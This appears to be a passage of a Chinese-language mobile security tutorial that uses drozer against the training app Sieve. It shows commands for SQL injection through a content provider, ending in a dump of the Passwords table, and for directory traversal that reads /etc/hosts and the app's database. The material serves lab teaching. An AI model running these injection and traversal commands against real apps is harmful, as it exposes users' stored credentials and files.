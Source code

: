 进一步利用

单引号报错

```bash
# 双引号内为注入的语句
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --projection "'"
```

![image-20231013110430578](../../../images/image-20231013110430578.png)

查询所有表

```bash
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"
```

![image-20231013110556263](../../../images/image-20231013110556263.png)

查询Passwords表

```bash
run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/ --projection "* FROM Passwords;--"
```

![image-20231013110937259](../../../images/image-20231013110937259.png)



#### **目录遍历**

目录遍历漏洞扫描

```bash
run scanner.provider.traversal -a com.mwr.example.sieve
```

![image-20231013111123785](../../../images/image-20231013111123785.png)

利用目录遍历读取文件

`/etc/hosts`

```bash
run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts
```

![image-20231013111241044](../../../images/image-20231013111241044.png)

`应用db文件`

```bash
run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db
```

下载文件
